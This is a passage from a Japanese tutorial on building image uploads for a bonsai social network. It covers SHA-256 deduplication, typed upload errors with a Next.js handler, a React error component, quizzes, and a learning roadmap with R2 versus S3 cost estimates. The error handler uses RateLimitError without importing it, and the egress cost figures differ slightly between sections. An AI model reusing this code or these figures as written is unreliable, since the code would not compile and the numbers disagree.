export async function uploadWithDeduplication(
  buffer: Buffer,
  fileName: string,
  mimeType: string,
  folder: string
) {
  // 1. ハッシュを計算
  const hash = calculateImageHash(buffer)

  // 2. 同じハッシュの画像がDBにあるか検索
  const existing = await prisma.postMedia.findFirst({
    where: { fileHash: hash },
    select: { url: true },
  })

  if (existing) {
    // 3-a. 同じ画像が既にアップロードされている
    console.log(`Duplicate image detected (hash: ${hash.substring(0, 8)}...)`)
    return {
      success: true,
      url: existing.url,
      deduplicated: true,  // 重複検出フラグ
    }
  }

  // 3-b. 新しい画像 → 通常のアップロード処理
  const result = await uploadFile(buffer, fileName, mimeType, folder)

  // 4. ハッシュをDBに記録（将来の重複検出用）
  // 注意: postMedia レコードの作成は呼び出し元が行う
  // ここではハッシュを返すだけ
  return {
    ...result,
    hash,
    deduplicated: false,
  }
}
```

<details>
<summary><b>理解度チェック: セキュリティ追加パターン</b></summary>

**Q1**: CSPの`img-src`ディレクティブに`data:`と`blob:`を許可する理由は何ですか？

**A1**: `data:`はBase64エンコードされたインライン画像を表示するために必要で、BlurhashのCanvasデータをimgタグ経由で表示する場合に使います。`blob:`はBlobURLからの画像表示を許可するもので、アップロード前のプレビュー画像（`URL.createObjectURL()`で生成）を表示するために必要です。どちらもクライアント側でローカルに生成されるデータなので、外部からの攻撃リスクは低いです。

**Q2**: ウイルススキャンでフェイルオープン（スキャン失敗時にアップロード許可）を選択する理由と、そのリスクを説明してください。

**A2**: フェイルオープンを選択する理由は、ClamAVサーバーの障害で全ユーザーのアップロードがブロックされるとサービスの可用性に重大な影響があるためです。リスクとしては、スキャンサービスの障害中に感染ファイルがアップロードされる可能性があります。このリスクを軽減するため、スキャン失敗をログに記録し、障害復旧後にバッチスキャンを実行して事後検出する運用が必要です。

**Q3**: 画像のSHA-256ハッシュによる重複検出の限界は何ですか？

**A3**: SHA-256は「ビット単位で完全に同一のファイル」しか検出できません。同じ画像でも、(1) 再圧縮された場合、(2) 1ピクセルでも変更された場合、(3) メタデータが異なる場合は、異なるハッシュが生成されます。知覚的に同じ画像（見た目が同じだが微小な差がある画像）を検出するには、pHash（知覚的ハッシュ）のような別のアルゴリズムが必要です。

</details>

---

## 11.19 アップロードエラーハンドリングの体系的パターン

アップロード機能は、ネットワーク通信・ファイルI/O・外部サービス連携など、エラーが発生しやすい処理の集合体です。この節では、発生しうるエラーの種類を体系的に分類し、それぞれに対する適切なハンドリングパターンを解説します。

```mermaid
graph TD
    Root["アップロードエラーの分類体系"]

    Root --> Client["クライアント側エラー<br/>ユーザーの操作に起因"]
    Root --> Server["サーバー側エラー<br/>システムの問題に起因"]
    Root --> External["外部サービスエラー<br/>第三者サービスの問題に起因"]

    Client --> C1["ファイル選択エラー<br/>非対応形式、サイズ超過"]
    Client --> C2["圧縮エラー<br/>メモリ不足、WebWorkerエラー"]
    Client --> C3["ネットワークエラー<br/>オフライン、タイムアウト"]

    Server --> S1["バリデーションエラー<br/>認証失敗、レート制限"]
    Server --> S2["処理エラー<br/>sharp変換失敗、メモリ不足"]
    Server --> S3["ストレージエラー<br/>R2接続失敗、権限不足"]

    External --> E1["CDNエラー<br/>Cloudflare障害"]
    External --> E2["データベースエラー<br/>Supabase接続障害"]
    External --> E3["Redisエラー<br/>Upstash接続障害"]

    style Root fill:#f0f0f0
    style Client fill:#ffe0e0
    style Server fill:#e0e0ff
    style External fill:#e0ffe0
```

### 11.19.1 エラー型の定義と統一的なハンドリング

```typescript
// lib/errors/upload-errors.ts

/**
 * アップロードエラーの基底クラス
 *
 * ■ なぜカスタムエラークラスを作るか？
 *   標準の Error クラスでは以下の情報が不足:
 *   → HTTPステータスコード（クライアントに返すべきステータス）
 *   → エラーコード（フロントエンドでのエラー種別判定に使用）
 *   → リトライ可否（自動リトライすべきかの判定に使用）
 *   → ユーザー向けメッセージ（技術的な詳細を含まない安全なメッセージ）
 */
export class UploadError extends Error {
  constructor(
    message: string,                  // 開発者向けの詳細メッセージ
    public readonly code: string,     // エラーコード（例: "FILE_TOO_LARGE"）
    public readonly statusCode: number, // HTTPステータスコード
    public readonly userMessage: string, // ユーザー向けメッセージ（日本語）
    public readonly retryable: boolean = false // リトライ可能か
  ) {
    super(message)
    this.name = 'UploadError'
  }
}

/**
 * ファイルバリデーションエラー
 * → ユーザーが修正すべき問題（リトライしても同じ結果）
 */
export class FileValidationError extends UploadError {
  constructor(message: string, userMessage: string) {
    super(
      message,
      'FILE_VALIDATION_ERROR',
      400,        // Bad Request
      userMessage,
      false        // リトライ不可（ユーザーがファイルを変更する必要がある）
    )
    this.name = 'FileValidationError'
  }
}

/**
 * 認証エラー
 * → セッション切れなど（再ログインが必要）
 */
export class AuthenticationError extends UploadError {
  constructor() {
    super(
      'User not authenticated',
      'AUTH_ERROR',
      401,        // Unauthorized
      'ログインが必要です。再度ログインしてください。',
      false        // リトライ不可（再ログインが必要）
    )
    this.name = 'AuthenticationError'
  }
}

/**
 * レート制限エラー
 * → 一定時間後にリトライ可能
 */
export class RateLimitError extends UploadError {
  constructor(
    public readonly retryAfter: number  // リトライまでの秒数
  ) {
    super(
      `Rate limit exceeded. Retry after ${retryAfter}s`,
      'RATE_LIMIT',
      429,        // Too Many Requests
      `アップロードが多すぎます。${retryAfter}秒後にお試しください。`,
      true         // リトライ可能（時間経過後）
    )
    this.name = 'RateLimitError'
  }
}

/**
 * ストレージエラー
 * → R2の接続障害など（自動リトライ対象）
 */
export class StorageError extends UploadError {
  constructor(message: string) {
    super(
      message,
      'STORAGE_ERROR',
      502,        // Bad Gateway
      'ストレージサービスに接続できません。しばらく待ってから再試行してください。',
      true         // リトライ可能（一時的な障害の可能性）
    )
    this.name = 'StorageError'
  }
}

/**
 * 画像処理エラー
 * → sharpの変換失敗など
 */
export class ImageProcessingError extends UploadError {
  constructor(message: string) {
    super(
      message,
      'IMAGE_PROCESSING_ERROR',
      422,        // Unprocessable Entity
      '画像の処理に失敗しました。別の画像をお試しください。',
      false        // リトライ不可（同じ画像では同じ結果）
    )
    this.name = 'ImageProcessingError'
  }
}
```

```typescript
// lib/errors/error-handler.ts
// 統一的なエラーハンドリングユーティリティ

import { NextResponse } from 'next/server'
import { UploadError } from './upload-errors'

/**
 * アップロードAPIの統一エラーハンドラ
 *
 * ■ このハンドラの役割
 *   1. UploadError系: 設計通りのレスポンスを返す
 *   2. 未知のエラー: 情報漏洩を防ぎつつ、500レスポンスを返す
 *   3. すべてのエラーをログに記録
 *
 * ■ なぜ統一ハンドラが必要か？
 *   → API毎にtry-catchを書くと、エラーレスポンスの形式がバラバラになる
 *   → 新しいエラー型を追加した時に、全APIを修正する必要がある
 *   → ログの形式が統一されない
 */
export function handleUploadError(error: unknown): NextResponse {
  // UploadError系のエラー（設計済み）
  if (error instanceof UploadError) {
    // サーバーログには詳細情報を記録
    console.error(`[${error.code}] ${error.message}`, {
      statusCode: error.statusCode,
      retryable: error.retryable,
    })

    // クライアントにはユーザー向けメッセージのみ返す
    const response: Record<string, unknown> = {
      error: error.userMessage,
      code: error.code,
      retryable: error.retryable,
    }

    // レート制限エラーの場合、リトライ待機時間を含める
    if (error instanceof RateLimitError) {
      response.retryAfter = error.retryAfter
    }

    return NextResponse.json(response, {
      status: error.statusCode,
      headers: error instanceof RateLimitError
        ? { 'Retry-After': String(error.retryAfter) }
        : undefined,
    })
  }

  // 未知のエラー（設計外）
  console.error('[UNKNOWN_ERROR] Unexpected upload error:', error)

  // ■ 情報漏洩防止
  // → エラーの詳細（スタックトレース、ファイルパス等）は返さない
  // → 一般的なメッセージのみ返す
  return NextResponse.json(
    {
      error: 'アップロード中にエラーが発生しました。しばらく経ってから再試行してください。',
      code: 'UNKNOWN_ERROR',
      retryable: true,
    },
    { status: 500 }
  )
}
```

```typescript
// クライアント側: エラーに応じたUIフィードバック

// components/post/UploadErrorDisplay.tsx
'use client'

import { AlertCircle, RefreshCw, LogIn, FileWarning } from 'lucide-react'
import { useRouter } from 'next/navigation'

interface UploadErrorInfo {
  error: string       // ユーザー向けメッセージ
  code: string        // エラーコード
  retryable: boolean  // リトライ可能か
  retryAfter?: number // リトライまでの秒数
}

interface UploadErrorDisplayProps {
  error: UploadErrorInfo
  onRetry: () => void  // リトライボタンのコールバック
}

/**
 * アップロードエラーの表示コンポーネント
 *
 * ■ エラーの種類に応じて異なるUIを表示
 *   AUTH_ERROR         → ログインボタン
 *   RATE_LIMIT         → カウントダウンタイマー + リトライボタン
 *   FILE_VALIDATION_*  → エラー説明 + 別ファイル選択ボタン
 *   STORAGE_ERROR      → リトライボタン
 *   その他             → 一般的なエラーメッセージ
 */
export function UploadErrorDisplay({
  error,
  onRetry,
}: UploadErrorDisplayProps) {
  const router = useRouter()

  // エラーコードに応じたアイコンと色を決定
  const getErrorStyle = () => {
    switch (error.code) {
      case 'AUTH_ERROR':
        return {
          icon: <LogIn className="h-5 w-5" />,
          bgColor: 'bg-yellow-50',
          borderColor: 'border-yellow-200',
          textColor: 'text-yellow-800',
        }
      case 'FILE_VALIDATION_ERROR':
        return {
          icon: <FileWarning className="h-5 w-5" />,
          bgColor: 'bg-orange-50',
          borderColor: 'border-orange-200',
          textColor: 'text-orange-800',
        }
      default:
        return {
          icon: <AlertCircle className="h-5 w-5" />,
          bgColor: 'bg-red-50',
          borderColor: 'border-red-200',
          textColor: 'text-red-800',
        }
    }
  }

  const style = getErrorStyle()

  return (
    <div
      className={`
        flex items-start gap-3 rounded-lg border p-4
        ${style.bgColor} ${style.borderColor}
      `}
    >
      <div className={style.textColor}>{style.icon}</div>

      <div className="flex-1">
        <p className={`text-sm font-medium ${style.textColor}`}>
          {error.error}
        </p>

        {/* 認証エラー → ログインボタン */}
        {error.code === 'AUTH_ERROR' && (
          <button
            onClick={() => router.push('/login')}
            className="mt-2 text-sm text-yellow-700 underline hover:text-yellow-900"
          >
            ログインページへ
          </button>
        )}

        {/* リトライ可能なエラー → リトライボタン */}
        {error.retryable && error.code !== 'AUTH_ERROR' && (
          <button
            onClick={onRetry}
            className="mt-2 flex items-center gap-1 text-sm text-red-700 underline hover:text-red-900"
          >
            <RefreshCw className="h-3 w-3" />
            再試行する
          </button>
        )}
      </div>
    </div>
  )
}
```

<details>
<summary><b>理解度チェック: エラーハンドリング</b></summary>

**Q1**: カスタムエラークラスに`retryable`プロパティを持たせる理由は何ですか？

**A1**: クライアント側が自動リトライを行うべきかどうかを判断するためです。例えば、ファイルバリデーションエラー（`retryable: false`）は同じファイルで再試行しても同じ結果になるため、リトライは無意味です。一方、ストレージ接続エラー（`retryable: true`）は一時的な障害である可能性が高く、時間を置いて再試行すれば成功する可能性があります。この判断をクライアントのコードにハードコードするのではなく、サーバーがレスポンスに含めることで、エラーハンドリングの一貫性が保たれます。

**Q2**: 未知のエラー（設計外のエラー）に対して`retryable: true`を返す理由は何ですか？

**A2**: 未知のエラーの原因が不明である以上、「一時的な問題かもしれない」という楽観的な仮定に基づいています。もし一時的なサーバー障害や一過性のバグであれば、リトライで成功する可能性があります。リトライしても失敗する場合は、ユーザーが手動で諦めるか、最大リトライ回数に達して停止します。逆に`retryable: false`にすると、一時的な問題でもユーザーに「このファイルはアップロードできません」と誤ったメッセージを伝えてしまうリスクがあります。

</details>

---

## 11.20 学習ロードマップ -- 画像アップロードのスキルを深めるために

この章で学んだ画像アップロードの知識は、Web開発の多くの分野につながっています。ここでは、次に何を学ぶべきかを段階的に示すロードマップを提示します。

```mermaid
flowchart TD
    L1["レベル1: 基礎（この章の内容）"]
    L2["レベル2: 応用"]
    L3["レベル3: 上級"]

    L1 --> L2 --> L3

    L1 --- L1a["ファイルアップロードの基本<br/>FormData, multipart/form-data"]
    L1 --- L1b["画像フォーマット<br/>JPEG, PNG, WebP, AVIF"]
    L1 --- L1c["クライアント側圧縮<br/>Canvas API（外部ライブラリ不要）"]
    L1 --- L1d["サーバー側処理<br/>sharp, バリデーション"]
    L1 --- L1e["オブジェクトストレージ<br/>Cloudflare R2"]
    L1 --- L1f["next/image による表示最適化"]
    L1 --- L1g["セキュリティ<br/>マジックバイト、レート制限、OWASP対策"]

    L2 --- L2a["プログレッシブ画像<br/>LQIP、Blurhash"]
    L2 --- L2b["画像CDN<br/>Cloudflare Images, imgproxy"]
    L2 --- L2c["動画処理<br/>ffmpeg, HLS/DASH ストリーミング"]
    L2 --- L2d["リアルタイムプレビュー<br/>WebSocket"]
    L2 --- L2e["ドラッグ&ドロップ UI"]
    L2 --- L2f["画像エディタ<br/>クロップ、フィルタ、テキスト重畳"]

    L3 --- L3a["AI画像分析<br/>不適切コンテンツ検出、自動タグ付け"]
    L3 --- L3b["分散ストレージ<br/>マルチリージョン配置"]
    L3 --- L3c["コスト最適化<br/>ストレージクラス、ライフサイクルポリシー"]
    L3 --- L3d["大規模運用<br/>100万枚超の画像管理"]
    L3 --- L3e["コンプライアンス<br/>GDPR対応、著作権管理"]

    style L1 fill:#4CAF50,color:#fff
    style L2 fill:#FF9800,color:#fff
    style L3 fill:#F44336,color:#fff
```

### 11.20.1 レベル2への道: 各テーマの概要と学習リソース

**テーマ1: 動画処理とストリーミング**

SNSで動画を配信するには、画像とは異なる技術が必要です。

```
■ 動画処理の基礎知識

コーデック（Codec = Coder/Decoder）:
  → 動画データを圧縮/展開する方式
  → H.264: 最も広くサポートされている（互換性重視）
  → H.265: H.264の後継、2倍の圧縮効率（特許問題あり）
  → VP9: Googleが開発、YouTube で使用（ロイヤリティフリー）
  → AV1: 次世代コーデック、VP9の後継（ロイヤリティフリー）

コンテナ（Container）:
  → 映像・音声・字幕等をまとめるファイル形式
  → MP4: 最も普及（H.264/H.265との組み合わせが一般的）
  → WebM: Web向け（VP8/VP9との組み合わせ）
  → MKV: 多機能（ほぼ全コーデック対応、Web非対応）

ストリーミング方式:
  → プログレッシブダウンロード: ファイルを最初から順番にダウンロード
     (BON-LOGの現在の方式。短い動画に適している)
  → HLS (HTTP Live Streaming): 動画を小さなチャンクに分割して配信
     (YouTube, Netflixが使用。長い動画・ライブ配信に適している)
  → DASH (Dynamic Adaptive Streaming): HLSの国際規格版

■ 学習の推奨順序

1. ffmpeg の基本コマンドを学ぶ
   → 動画のトランスコード（形式変換）
   → 動画からサムネイル画像の抽出
   → 動画の解像度変更・品質調整

2. HLSストリーミングを理解する
   → .m3u8プレイリストファイルの構造
   → .tsチャンクファイルの仕組み
   → アダプティブビットレート（画質自動切り替え）

3. Mux や Cloudflare Stream を使ってみる
   → 動画処理をSaaSに任せる（自前で ffmpeg を運用しない）
   → APIで動画アップロード → 自動トランスコード → HLS配信
```

---

**テーマ2: AI画像分析**

SNSでは不適切なコンテンツ（暴力的な画像、スパム等）を自動検出する仕組みが重要です。

```
■ AI画像分析でできること

1. 不適切コンテンツ検出（Content Moderation）
   → 暴力、アダルト、ヘイト表現を含む画像を自動検出
   → Google Cloud Vision API, AWS Rekognition, Azure Content Safety

2. 自動タグ付け（Auto Tagging）
   → 画像の内容を解析し、「松」「盆栽」「屋外」等のタグを自動付与
   → 検索機能の精度向上に活用

3. OCR（文字認識）
   → 画像内のテキストを抽出
   → スパム画像（テキストが埋め込まれた画像広告）の検出

4. 類似画像検出
   → アップロードされた画像と類似する既存画像を検出
   → 著作権侵害の検出、重複投稿の防止

■ BON-LOGでの活用アイデア

盆栽SNSならではの活用:
  → 樹種の自動判定（「松柏類」「雑木類」のジャンル自動選択）
  → 盆栽の成長記録（同じ盆栽の写真を時系列で自動整理）
  → 不適切コンテンツの自動ブロック（盆栽と無関係な画像の検出）
```

---

**テーマ3: コスト最適化と大規模運用**

ユーザー数が増えると、ストレージコストと配信コストの最適化が重要になります。

```
■ ストレージコスト最適化の手法

1. ライフサイクルポリシー
   → 古い画像を低コストのストレージクラスに自動移行
   → 例: 90日間アクセスのない画像を「Infrequent Access」クラスに
   → R2ではまだ未対応（S3では利用可能）

2. 画像の多解像度管理
   → 1枚の画像から複数サイズを生成（サムネイル、中、大）
   → 一覧画面ではサムネイルのみ配信（通信量削減）
   → 詳細画面でのみ大サイズを配信

3. CDNキャッシュの最適化
   → 人気の画像はCDNエッジにキャッシュ（R2へのリクエスト削減）
   → Cache-Control ヘッダーの適切な設定
   → キャッシュキーの設計（画像サイズ・フォーマット毎に分離）

■ コスト目安（月間10万ユーザーの場合）

ストレージ:
  → 10万ユーザー × 平均30枚 × 平均300KB = 約900GB
  → R2: 900GB × $0.015/GB = $13.50/月
  → S3: 900GB × $0.023/GB = $20.70/月

エグレス（配信）:
  → 10万DAU × 50枚閲覧 × 平均200KB = 約1TB/日
  → R2: $0（エグレス無料）
  → S3: 30TB × $0.09/GB = $2,700/月 ← 大きな差！

R2とS3の月額コスト比較:
  → R2: 約$15/月
  → S3: 約$2,720/月
  → R2を選んだことで約99%のコスト削減
```

### 11.20.2 学習チェックリスト

以下のチェックリストを使って、この章で学んだ内容の理解度を確認しましょう。

```
■ レベル1: 基礎（この章の内容 -- すべて理解できていますか？）

□ ファイルアップロードの仕組み
  □ FormDataオブジェクトの使い方を説明できる
  □ multipart/form-dataとapplication/jsonの違いがわかる
  □ サーバー経由とプリサインドURLの違いを説明できる

□ 画像フォーマット
  □ JPEG, PNG, WebP, AVIFの特徴と使い分けがわかる
  □ 非可逆圧縮と可逆圧縮の違いを説明できる
  □ マジックバイトの概念と検証の重要性がわかる

□ クライアント側処理
  □ Canvas APIベースの画像圧縮の仕組みを説明できる
  □ URL.createObjectURL()でプレビューを表示できる
  □ HEIC形式の対応方法がわかる

□ サーバー側処理
  □ sharpを使った画像リサイズ・変換ができる
  □ バリデーション（サイズ、MIME、マジックバイト）を実装できる
  □ ファイル名のサニタイズが必要な理由を説明できる

□ ストレージ
  □ Cloudflare R2の基本操作（アップロード、取得、削除）ができる
  □ S3互換APIの利点を説明できる
  □ エグレス料金の概念と、R2の優位性がわかる

□ 表示最適化
  □ next/imageの主要なプロパティを説明できる
  □ sizes属性の重要性がわかる
  □ priority属性を設定すべき画像の判断基準がわかる

□ セキュリティ
  □ 多層防御の概念を説明できる
  □ レート制限の実装方法がわかる
  □ エラーメッセージで情報漏洩を防ぐ方法がわかる
  □ OWASP Top 10との対応関係を説明できる

■ レベル2: 応用（次のステップ）

□ Blurhashの生成と表示を実装できる
□ Intersection Observerで遅延読み込みを実装できる
□ リトライ機能（Exponential Backoff + Jitter）を実装できる
□ カスタムエラークラスを設計できる
□ CSPヘッダーの設定ができる
```

### 11.20.3 この章で登場した技術・ライブラリの一覧

**主要ライブラリ**

| ライブラリ名 | 用途 | npm install コマンド |
|-------------|------|---------------------|
| `@aws-sdk/client-s3` | R2/S3操作 | `npm install @aws-sdk/client-s3` |
| `@aws-sdk/s3-request-presigner` | プリサインドURL生成 | `npm install @aws-sdk/s3-request-presigner` |
| `sharp` | サーバー側画像処理 | `npm install sharp` |
| Canvas API（`lib/client-image-compression.ts`） | クライアント側画像圧縮 | 外部ライブラリ不要（ブラウザ標準API） |
| `blurhash` | プレースホルダー生成/表示 | `npm install blurhash` |
| `heic2any` | HEIC→JPEG変換（クライアント） | `npm install heic2any` |
| `next` | next/image（組み込み） | Next.jsに含まれる |

**主要API・サービス**

| サービス名 | 用途 | 公式サイト |
|-----------|------|-----------|
| Cloudflare R2 | オブジェクトストレージ | https://developers.cloudflare.com/r2/ |
| Cloudflare CDN | 画像配信（CDN） | https://www.cloudflare.com/ |
| Vercel | ホスティング | https://vercel.com/ |
| Supabase | データベース | https://supabase.com/ |
| Upstash Redis | レート制限用KVS | https://upstash.com/ |

**主要概念・用語**

| 用語 | 意味 |
|------|------|
| マジックバイト | ファイルの先頭バイトによる形式識別 |
| プリサインドURL | 期限付きの署名付きアップロードURL |
| エグレス料金 | ストレージからの送信データに対する課金 |
| Exponential Backoff | リトライ間隔を指数関数的に増やす手法 |
| Jitter | リトライ間隔にランダムなゆらぎを加える手法 |
| Blurhash | 画像のぼやけたプレビューを短い文字列で表現 |
| Content-Security-Policy | ブラウザのリソース読み込みを制限するHTTPヘッダー |
| OWASP Top 10 | Webアプリケーションの主要な脆弱性リスト |
| Intersection Observer | 要素の画面内表示を監視するブラウザAPI |

<details>
<summary><b>理解度チェック: 学習ロードマップ</b></summary>

**Q1**: 動画配信でプログレッシブダウンロードではなくHLSストリーミングを使うべき場面はどのような場合ですか？

**A1**: 動画が長い場合（数分以上）やライブ配信を行う場合です。プログレッシブダウンロードでは動画ファイル全体を順番にダウンロードするため、長い動画の途中を見たい場合にも最初からダウンロードが必要です。HLSは動画を小さなチャンク（通常2〜10秒）に分割するため、任意の位置から再生を開始でき、またネットワーク帯域に応じて画質を自動的に切り替える（アダプティブビットレート）ことができます。BON-LOGでは動画が最大3分と短いため、プログレッシブダウンロードで十分ですが、将来的に動画の上限を伸ばす場合はHLSの導入を検討すべきです。

**Q2**: 月間10万ユーザーのSNSで、R2とS3のエグレス料金の差が非常に大きくなる理由を計算で説明してください。

**A2**: 10万DAUが1日あたり50枚の画像（平均200KB）を閲覧すると、1日のエグレス量は10万 x 50 x 200KB = 1TB/日、月間30TBになります。S3のエグレス料金は$0.09/GBなので、30TB x 1024 x $0.09 = 約$2,764/月です。一方、R2のエグレス料金は$0なので、この差額がそのままコスト削減になります。SNSは「少数がアップロードし多数が閲覧する」サービスであるため、配信データ量がストレージ量を大幅に上回り、エグレス料金の比重が極めて大きくなります。

</details>
